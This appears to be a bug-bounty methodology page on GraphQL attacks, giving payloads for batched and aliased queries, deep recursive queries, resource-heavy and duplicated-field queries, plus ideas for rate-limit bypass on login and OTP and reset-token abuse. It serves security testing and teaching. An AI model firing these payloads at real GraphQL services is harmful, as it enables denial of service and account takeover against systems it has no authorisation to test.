 
# 1 - Batch Query Attacks

If a resource intensive GraphQL query is identified, batch processing can be used to call the query and potentially overwhelm the service for a prolonged period of time.

```
data = [
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]}
]
requests.post('http://host/graphql', json=data)
```

### Aliases based Attack
If batching is disabled, use [aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases), if the server is not analyzing the cost of the query, it can be used to DOS, or it can be used to bypass rate limiting on Login, OTP...

```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```

> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.


# 2 - Denial of Service 
### 2.1 :: Deep Recursion Query Attack
If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

### 2.2 :: Resource Intensive Query Attack
Some queries may be computationally more expensive than others, as they would trigger more complex backend logic in order to fulfill the query resolution. we can abuse it by calling these actions frequently in order to cause resource exhaustion.
```
query {
  t1:systemUpdate
}
```
Execution Time :: 81 seconds
> [!NOTE]
> if Query Cost Analysis protection is implemented it should it!
### 2.3 Field Duplication Attack
Various GraphQL implementation do not bother de-duplicating repeating fields in GraphQL, allowing the user to multiply the same requested fields as they wish.
```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ipAddr # 1000
          }
        }
    }
}
```



# 3 - GraphQL CSRF
Doesn't differ from regular [CSRF](https://portswigger.net/web-security/graphql#graphql-csrf) 


## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

## Refrences
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
